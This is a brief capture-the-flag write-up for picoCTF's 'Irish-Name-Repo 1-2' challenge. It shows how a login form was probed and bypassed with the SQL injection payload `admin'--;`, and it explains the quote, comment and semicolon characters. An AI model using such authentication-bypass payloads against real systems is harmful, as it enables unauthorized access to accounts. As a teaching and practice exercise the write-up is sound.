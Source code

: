 # Irish-Name-Repo 1-2

## Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Try

Got to login page try random credential like `admin`::`admin` => login ERROR

Navigate support page and wee see somone get SQL ERROR => probabli [[SQLI]]

Try SQLI:
- admin" for trigger sql error => nothing
- admin' => nothing happend (SQL ERROR)


## Exploit
Simple SQLI:
 `admin'--;`
 
 ```SQL
 SELECT * FROM userTable WHERE username='admin'--;
 ```
 
 ' => go out string 
 -- => comment
 ; => end of requests
